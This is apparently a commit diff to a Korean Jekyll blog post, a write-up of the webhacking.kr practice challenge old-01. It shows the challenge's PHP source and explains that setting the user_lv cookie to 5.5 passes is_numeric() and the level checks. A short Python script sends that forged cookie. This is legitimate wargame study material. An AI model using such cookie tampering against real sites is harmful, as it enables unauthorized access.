

Before and after one commit to bindon/bindon.github.io, a Jekyll site: the page built from _posts/Web Hacking KR/2019-11-27-old01.md, in a window 1280 px wide. Shown: the whole page at 61% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; formulas are drawn with MathJax 3.

Commit message:
Post webhacking.kr old-01

````diff
--- a/_posts/Web Hacking KR/2019-11-27-old01.md
+++ b/_posts/Web Hacking KR/2019-11-27-old01.md
@@ -6,10 +6,57 @@ category: Webhacking.kr
 date: 2019-11-27
 ---
 
-# 문제 분석
-분석 예정
+# Problem Analysis
+![old-01-problem]({{site.url}}{{site.baseurl}}{{site.assets_path}}/img/posts/Web Hacking Kr/old-01-problem.png){: .text-center }
+문제를 확인하면, 이 페이지에서는 사용자의 입력을 받는 부분이 따로 나타나지 않기 때문에, 바로 view-source 링크를 클릭하여 코드를 확인합니다.
 
-# 구현
+```php
+<?php
+  include "../../config.php";
+  if($_GET['view-source'] == 1){ view_source(); }
+  if(!$_COOKIE['user_lv']){
+    SetCookie("user_lv","1",time()+86400*30,"/challenge/web-01/");
+    echo("<meta http-equiv=refresh content=0>");
+  }
+?>
+<html>
+<head>
+<title>Challenge 1</title>
+</head>
+<body bgcolor=black>
+<center>
+<br><br><br><br><br>
+<font color=white>
+---------------------<br>
+<?php
+  if(!is_numeric($_COOKIE['user_lv'])) $_COOKIE['user_lv']=1;
+  if($_COOKIE['user_lv']>=6) $_COOKIE['user_lv']=1;
+  if($_COOKIE['user_lv']>5) solve(1);
+  echo "<br>level : {$_COOKIE['user_lv']}";
+?>
+<br>
+<a href=./?view-source=1>view-source</a>
+</body>
+</html>
+```
+코드의 상단 부분을 먼저 확인하면 쿠키가 없을 때 user_lv 에 1을 넣는것을 확인할 수 있고, 실제로 페이지에 아무런 조작 없이 접속했을 때 쿠키에 user_lv=1이 할당된 것을 확인할 수 있습니다.
+코드의 하단 부분을 확인하면 세 가지의 if문을 통해 아래와 같이 로직을 나누고 있습니다.
+1. user_lv가 is_numeric()을 통과하지 못하면 user_lv를 1로 설정
+2. user_lv가 6 이상이면 user_lv를 1로 설정
+3. user_lv가 5 초과라면 solve(1)을 실행
+
+우리의 목적은 1, 2를 우회하여 3을 실행하는 것입니다.
+1번 조건은 숫자를 입력하면 됩니다.
+2번 조건을 우회하기 위해 6 미만의 숫자를 입력해야 합니다.
+3번 조건을 만족하기 위해 5 초과의 숫자를 입력해야 합니다.
+즉, is_numeric()을 통과하며 $$ 5 < user_lv < 6 $$을 만족하면 됩니다.
+
+해당 조건을 만족하는 수를 알기 위해서는 [is_numeric()](https://www.php.net/manual/en/function.is-numeric.php)함수의 특징을 알아야 합니다.
+is_numeric()은 부호, 10진수, 지수(e), 소수점을 허용합니다. 예를 들어 +0123.45e6는 올바른 값입니다.
+즉 우리는 소수점을 사용하여 1번 조건을 우회할 수 있다는 것을 파악하였으므로, $$ 5 < user_lv < 6 $$를 만족할 수 있는 값을 사용하면 됩니다.
+여기서는 user_lv를 **5.5**로 정의하여 사용할 예정입니다.
+
+# Implementation
 ```python
 from bindon import login
 
@@ -27,7 +74,7 @@ response = session.get("https://webhacking.kr/challenge/web-01/", cookies=cookie
 print response.text
 ```
 
-# 결과
+# Execution Result
 ```
 [+] Login and get session
 [+] Set cookies
````
